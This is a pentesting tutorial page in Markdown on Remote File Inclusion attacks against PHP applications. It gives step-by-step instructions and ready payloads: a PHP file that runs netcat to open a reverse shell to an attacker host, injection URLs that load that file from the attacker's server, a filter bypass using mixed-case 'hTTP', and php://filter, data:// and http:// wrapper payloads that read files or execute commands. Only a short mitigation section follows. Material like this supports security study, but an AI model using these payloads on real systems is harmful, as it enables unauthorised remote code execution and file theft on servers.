 ```yaml
---
title: RFI attack - Remote File Inclusion
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
---
```


# RFI attack - Remote File Inclusion

## Tools and payloads 

- See updated chart: [Attacks and tools for web pentesting](web-exploitation.md).


## php 

In php.ini file there are some parameters that define this policy:

+ allow_url_fopen
+ allow_url_include

If these functions are enabled (set to ON), then a [LFI](local-file-inclusion-lfi.md) can turned into a Remote File Inclusion. 

**1.** Create a php file with the remote shell

```bash
nano reverse.txt
```

**2.**  In that php file, craft malicious code

```php
<?php
passthru("nc -e /bin/sh <attacker IP> <attacker port>") 
php ?>

```
**3.** Serve that file from you machine (http_serve).

**4.** Get your machine listening in a port with netcat.

**5.** In the injection point from where you can make a call to a URL, serve your file. For instance:

```
https:\\VICTIMurlADDRESS/PATH/PATH/page=http://<attackerip>/reverse.txt

# Sometimes to get php executed on the victim machin (and not the attacker), add an ?
https:\\VICTIMurlADDRESS/PATH/PATH/page=http://<attackerip>/reverse.txt?
```

Sometimes there might be some filtering for the payload (which was: 

```
http://<attackerip>/reverse.txt?). 
````

To bypass it:

```
# using uppercase
https:\\VICTIMurlADDRESS/PATH/PATH/page=hTTP://<attackerip>/reverse.txt

# Other bypassing techniques for slashes
```

## Wrappers

### PHP wrapper

php://filter : allow the attacker to include local file and base64 encode as the output:

```
http://IPdomain/rfi.php?language=php://filter/convert.base64-encode/resource=recurso.php
```

PHP filter without base64 encode:

```
php://filter/resource=flag.txt
```


### DATA wrapper

```
http://IPdomain/rfi.php?language=data://text/plain,<?php system('$_GET("cmd")');?>&cmd=whoami
```

### HTTP wrapper

```
http://IPdomain/rfi.php?language=http://SERVERIP/shell.php
```

## Mitigation

In php.ini disallow:

+ allow_url_fopen
+ allow_url_include

User static file inclusion (instead of dynamic file inclusion) by harcoding the files you want to include and not get them using GET or POST methods. 